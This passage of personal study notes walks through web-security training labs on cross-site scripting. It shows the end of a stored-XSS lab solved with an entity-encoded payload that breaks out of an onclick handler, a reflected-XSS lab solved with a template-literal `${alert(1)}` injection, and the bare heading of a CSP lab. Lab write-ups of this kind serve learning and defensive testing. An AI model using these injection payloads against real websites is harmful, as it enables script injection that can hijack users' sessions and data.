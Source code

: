 - simple POST requests look like this

```html
<img src="/resources/images/avatarDefault.svg" class="avatar" />
<a
  id="author"
  href="https://abc.com"
  onclick="var tracker={track(){}};tracker.track('https://abc.com');"
  >test1</a
>
13 October 2022
<p>test comment</p>
```

- testing with other fields - comment, name (no XSS is found)
- `'` is also need to bypass as it is reflected as `&apos;`
- `https://abc.com%26apos%3b)-alert(1)//` in the Website input
- response looks like this

```html
<a
  id="author"
  href="https://abc.com')-alert(1)//"
  onclick="var tracker={track(){}};tracker.track('https://abc.com')-alert(1)//');"
  >test1</a
>
```

---

## Lab - 23: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped (P)

- This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.

- test with random string and the response looks like

```html
<script>
  var message = `0 search results for 'qwerasdf'`;
  document.getElementById("searchMessage").innerText = message;
</script>
```

- inside the backtick
- just follow this syntax to execute JS `${alert(1)}`

---

## Lab - 24: Reflected XSS protected by very strict CSP, with dangling markup attack (E)
